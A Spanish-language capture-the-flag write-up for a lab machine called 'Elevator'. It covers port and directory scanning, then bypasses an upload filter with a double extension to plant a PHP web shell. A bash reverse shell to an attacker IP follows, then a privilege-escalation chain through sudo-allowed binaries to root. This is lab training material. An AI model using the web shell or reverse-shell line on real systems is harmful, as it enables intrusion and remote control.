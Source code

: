 # Máquina Elevator

![image](https://github.com/user-attachments/assets/affb22f8-7a17-4fed-8ef6-357c44d6fa80)

## Verificación de Conectividad

Primero, verificamos la conectividad con la máquina utilizando **ping**:

![Ping a la máquina objetivo](https://github.com/user-attachments/assets/ccf1913f-1090-4440-b19c-99c02fa464ea)

## Reconocimiento de Puertos con NMAP

Iniciamos la fase de reconocimiento de los puertos de dicha máquina con **NMAP**:
```bash
nmap -p- -sT -sV -A $IP -oN elevator
```
![image](https://github.com/user-attachments/assets/71cb52df-a563-4f30-b629-338de6f946b0)

Al parecer, solamente tenemos el puerto 80 habilitado. Vamos a proceder a analizar dicha web.

Parece ser una simple web que, al presionar el botón **¡Abre el Ascensor!**, muestra una animación y un mensaje que aparece en la pantalla.

![image](https://github.com/user-attachments/assets/5a24029b-c718-4aef-bab5-07fef1ef97aa)
![image](https://github.com/user-attachments/assets/301493da-5523-4f1d-b624-edffdd161fc0)

Siguiendo con la etapa de reconocimiento, vamos a usar **Gobuster** para el reconocimiento de directorios de dicha web.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 403,404 -x php,txt,php.bak,bak,tar
```

![image](https://github.com/user-attachments/assets/848edb40-b853-488c-815a-723877351ebd)

También procedemos a realizar el reconocimiento de directorios con **Feroxbuster**.
```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -d 10 -t 200 -x php,txt,html,php.bak,bak,tar --status-codes 200
```

![image](https://github.com/user-attachments/assets/1009cbe7-526c-4e7c-a697-c7425620a0e8)

Con **Feroxbuster** encontramos 2 ficheros con extensión **PHP** y **HTML**, los cuales vamos a analizar para proceder a su explotación.

En la ruta `http://172.17.0.2/themes/upload.php` encontramos un fichero que la web está interpretando, pero no visualizamos nada.

![image](https://github.com/user-attachments/assets/3be38251-eb36-4699-893f-29828ac0bb3d)

En la siguiente ruta `http://172.17.0.2/themes/archivo.html` encontramos un apartado donde podemos subir imágenes con extensión JPG.

![image](https://github.com/user-attachments/assets/cf5347b1-1321-4ed2-9cb3-c3a0d15fe563)

Vamos a proceder primero a crear un fichero con la extensión `.php`, por si la web permite subir dicho fichero. Si es así, podemos aprovechar esta vulnerabilidad para ganar acceso a la máquina.
```
<?php
    system($_GET['cmd']);
?>
```

![image](https://github.com/user-attachments/assets/57d54f62-7969-4ec9-a289-9e174bace3c1)``

Procedemos a subir el fichero a la web.

![image](https://github.com/user-attachments/assets/07a53adf-c045-479f-b990-8d25c1feaf38)

Pero al subir nuestro fichero **PHP**, la web no lo permite; solo nos permite subir ficheros con extensión **JPG**.

![image](https://github.com/user-attachments/assets/efa7fbce-9d34-4d45-805c-bf736f166876)

Vamos a realizar el método de doble **"double extension attack"**. Este ataque aprovecha las configuraciones de seguridad de los servidores web que pueden estar configurados para permitir la carga de archivos con ciertas extensiones, como `.jpg`, pero no de otras, como `.php`. 

En este ataque, renombramos el archivo para que tenga una extensión doble, como `reverShell.php.jpg`, lo que engaña al servidor para que lo permita cargar, mientras que el archivo PHP podría ejecutarse al acceder a él.

![image](https://github.com/user-attachments/assets/f455ca75-1e51-4e66-84d9-d5fb934da5da)

Nuevamente probaremos subir el fichero con la extensión doble a la web y verificaremos si nos lo permite.

![image](https://github.com/user-attachments/assets/bbe9063c-8a45-4eea-9acf-80dc2e27bfe2)

**¡Bingo!** Logramos subir nuestro archivo y la web nos proporciona la ruta donde se encuentra ubicado. Procederemos a visualizarlo para comprobar si la web lo interpreta o no.

![image](https://github.com/user-attachments/assets/2221b44c-ae07-442d-a5af-62120f4f741d)

La web interpreta correctamente el archivo malicioso subido por nosotros.

![image](https://github.com/user-attachments/assets/46ae684c-4649-40b1-a442-b88936f312f6)


Al ejecutar el comando `id`, verificamos la respuesta del comando.

![image](https://github.com/user-attachments/assets/11ca7995-ad4f-42fc-89ce-146fdcb28464)

Ahora vamos a proceder a hacernos una revershell de la siguiente forma

[ * ] Web victima:
`172.17.0.2/themes/uploads/6764f820a0d32.jpg/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"`

![image](https://github.com/user-attachments/assets/5f53a80a-2959-4c82-85b3-b8968da9222d)

[ * ]  Shell Atacante
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/c7b2bfde-9d5f-438a-8a1b-ff17d1c0eda6)

¡Bummmmm! Estamos dentro de la máquina, pero como el usuario `www-data`. 

![image](https://github.com/user-attachments/assets/5649a008-e84e-479d-b29a-b1461df881b0)

Vamos a verificar los permisos SUID para determinar si es posible elevar privilegios a través de este método. Sin embargo, lamentablemente no podremos aprovechar esta vía.

![image](https://github.com/user-attachments/assets/af283685-a5ed-47ce-a493-be56dcc09527)

Procederemos a realizar el tratamiento de la TTY para establecer una sesión interactiva más estable.

![image](https://github.com/user-attachments/assets/67836fc2-27fc-41ce-b39a-91fd61e2365f)

![image](https://github.com/user-attachments/assets/bfe361cb-be55-47f8-a52a-32f94666d19a)


Vamos a listar los comandos que el usuario puede ejecutar con privilegios de `root` usando `sudo -l`.

![image](https://github.com/user-attachments/assets/867899f6-d535-4786-ab47-6233e3215063)

En este caso, no podemos migrar como root, pero sí podemos migrar como el usuario **daphne**, con el cual podemos usar el comando `env`.

Con **GTFOBins**, vamos a buscar el binario `env` y listar los comandos que el usuario puede ejecutar como **daphne**

![image](https://github.com/user-attachments/assets/eaa5afdc-5d69-43ec-a33d-1172ecb8360c)

![image](https://github.com/user-attachments/assets/3f7edfb7-9e27-45c5-9f83-775e4e412702)

Ya estando como el usuario **daphne**, procederemos a listar nuevamente los comandos disponibles para verificar si podemos migrar a otro usuario o escalar privilegios.

Al listar nuevamente, verificamos que podemos migrar al usuario **vilma** usando el comando `ash`.

![image](https://github.com/user-attachments/assets/e61ea684-7c5c-412c-b1b0-74527e308a31)

En **GTFOBins** nos indica cómo migrar, lo cual haremos con una pequeña modificación utilizando el parámetro `-u`, donde indicamos el nombre del usuario al cual vamos a migrar (en este caso, **vilma**).

![image](https://github.com/user-attachments/assets/97e3dc67-8d1e-4751-ac52-5fd09d0e5d6c)

![image](https://github.com/user-attachments/assets/86c4abcf-e0ef-498e-bb60-2caf8f917e79)

Al parecer, la temática es de esta forma. Vamos a listar nuevamente los comandos o posibles configuraciones disponibles para verificar si podemos continuar con la migración

En este caso, podemos migrar al usuario **shaggy** usando el binario de **ruby**. Nos ayudaremos de **GTFOBins**.

![image](https://github.com/user-attachments/assets/fed2f6dc-109c-4696-b67d-9c44c968db5a)

![image](https://github.com/user-attachments/assets/2338ad11-cabf-48d2-a940-cc59dc764925)

Ganamos acceso al usuario shaggy.

![image](https://github.com/user-attachments/assets/694c563b-20fa-402f-9e29-4f4102a2f32b)

Nuevamente, tenemos el binario **lua** para migrar como el usuario **fred**.

![image](https://github.com/user-attachments/assets/c6ba585c-5438-4139-8c4d-8c2fb04727e2)

![image](https://github.com/user-attachments/assets/775abda8-d31e-4632-97b4-4f0221524ce3)

Ahora logramos migrar al usuario **fred**.

![image](https://github.com/user-attachments/assets/b1ebe188-a860-4b66-a728-ceef6b5e84f4)

Para migrar al usuario **scooby**, tenemos que usar el binario **gcc**.

![image](https://github.com/user-attachments/assets/38523977-bfc3-4bf6-bdd8-fb7927a6e0db)

![image](https://github.com/user-attachments/assets/c45a7d93-1344-4aec-849a-7b5e395c48cc)

Logramos migrar al usuario **scooby**. Ahora, vamos a proceder nuevamente a listar.

![image](https://github.com/user-attachments/assets/47b5e7d3-9ef7-4906-95ed-2f59ec0a8a52)

Finalmente, podemos migrar al usuario **root** utilizando el binario **sudo**.

![image](https://github.com/user-attachments/assets/174b93d3-6efb-4009-b5d9-66c7e1dc1372)

![image](https://github.com/user-attachments/assets/1ed27c1e-8aa8-493d-98a3-14880958df35)

# $BLING $BLING SOMOS ~~ROOT~~

![image](https://github.com/user-attachments/assets/027d9ae5-281f-47f4-a943-110c6c318a79)
